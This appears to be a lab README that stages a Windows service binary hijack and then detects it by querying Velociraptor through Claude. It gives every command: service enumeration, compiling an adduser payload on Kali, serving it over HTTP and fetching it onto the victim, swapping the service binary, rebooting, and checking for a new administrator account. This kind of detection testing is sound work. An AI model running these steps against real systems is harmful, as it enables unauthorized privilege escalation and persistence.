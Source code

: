 # Steps to fabricate attack(safe) on Windows
This document denotes how we can fabricate a plausible attack on a Windows machine.

We demonstrate a Windows service binary hijacking(that is benign in nature).

## Step 1: Enumeration
### Open PowerShell and key in this command to look at which services are running to determine what to hijack
``` Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} ``` 
#### We want to obtain a binary that is not located in C:\\WINDOWS\\sys32

## Spawning a benign service if unable to find one to hijack (for testing purposes)
``` sc.exe create InfoService binPath= "C:\Program Files\InfoService\infoservice.exe" start= auto ```
``` mkdir "C:\Program Files\InfoService" ```
``` copy "C:\Windows\System32\notepad.exe" "C:\Program Files\InfoService\infoservice.exe" ```
### Check if service is spawned (Normal case would not because it is in start=auto, only start when reboot)
``` sc qc InfoService ```

## Step 2: Create malicious binary in Kali Linux: 
### Create and compile binary: 
``` x86_64-w64-mingw32-gcc adduser.c -o adduser.exe ```
### Start web server in same directory as binary created:
``` python3 -m http.server``` 
### Download on Windows client (PowerShell):
```iwr -uri http://192.168.75.130:8000/adduser.exe -Outfile adduser.exe```
### Backup the binary by moving the original binary to a safe location
```move "C:\Program Files\InfoService\infoservice.exe" "infoservice.exe"```
```move ".\adduser.exe" "C:\Program Files\InfoService\infoservice.exe"```
```net stop infoservice ```
### Force a reboot of the system to spawn the new service
``` shutdown /r /t 0 ```
### Verify if binary was run: (Should see a new user root2)
```Get-LocalGroupMember administrators```

## Step 3: Query Velociraptor in Claude
``` Can you give me all system binaries on DESKTOP-MHTMS38 and flag services whose binary was modified recently(e.g. in the last 24 hours) ``` (works and has results by Claude)

`can you give me all network connections on DESKTOP-MHTMS38 and look for suspicious processes?`

`can you tell me which artifacts target the USN journal` 